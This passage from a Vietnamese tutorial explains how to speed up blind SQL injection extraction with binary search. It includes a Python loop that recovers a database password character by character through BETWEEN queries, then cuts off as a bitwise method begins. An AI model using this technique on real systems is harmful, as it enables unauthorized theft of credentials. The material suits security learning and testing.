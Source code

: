 # 6. Tối ưu hóa quá trình trích xuất dữ liệu qua Blind SQL Injection

---

### **1. Tối ưu với thuật toán "Bisection" (Tìm kiếm nhị phân)**

#### **Ý tưởng**
- Chia phạm vi giá trị ASCII (0–127) thành hai nửa bằng cách tính **`midpoint`**.
- Kiểm tra ký tự mục tiêu nằm trong nửa nào bằng cách sử dụng truy vấn **`BETWEEN`**.
- Thu hẹp phạm vi và lặp lại cho đến khi chỉ còn lại một giá trị.

#### **Ví dụ hoạt động**
Tìm ký tự đầu tiên của mật khẩu, ký tự mục tiêu là **`-`** (ASCII = 45):
1. **Lần 1:** Phạm vi 0–127, midpoint = 63 → Ký tự nằm giữa 0–63 → Thu hẹp phạm vi: 0–62.
2. **Lần 2:** Phạm vi 0–62, midpoint = 31 → Ký tự không nằm giữa 0–31 → Thu hẹp phạm vi: 32–62.
3. Tiếp tục lặp lại cho đến khi phạm vi còn 1 giá trị.

#### **Triển khai bằng Python**
```python
# Tìm mật khẩu mục tiêu bằng thuật toán Bisection
print("[*] Password = ", end='')

for i in range(1, length + 1):  # Duyệt qua từng ký tự trong mật khẩu
    low = 32  # ASCII ký tự in được
    high = 126

    while low <= high:
        mid = (low + high) // 2
        # Kiểm tra ký tự mục tiêu nằm trong phạm vi nào
        if oracle(f"ASCII(SUBSTRING(password,{i},1)) BETWEEN {low} AND {mid}"):
            high = mid - 1
        else:
            low = mid + 1

    print(chr(low), end='')  # In ký tự đã tìm được
    sys.stdout.flush()

print()
```

#### **Hiệu quả**
- Tổng số truy vấn: **256** (giảm từ 4128).
- Thời gian thực thi: **61.556 giây**.

---

### **2. Tối ưu với thuật toán "SQL-Anding"**

#### **Ý tưởng**
- Tách ký tự mục tiêu thành các bit nhị phân (0–7 bit) và kiểm tra từng bit.
- Sử dụng phép toán **bitwise AND** để xác định giá trị từng bit.
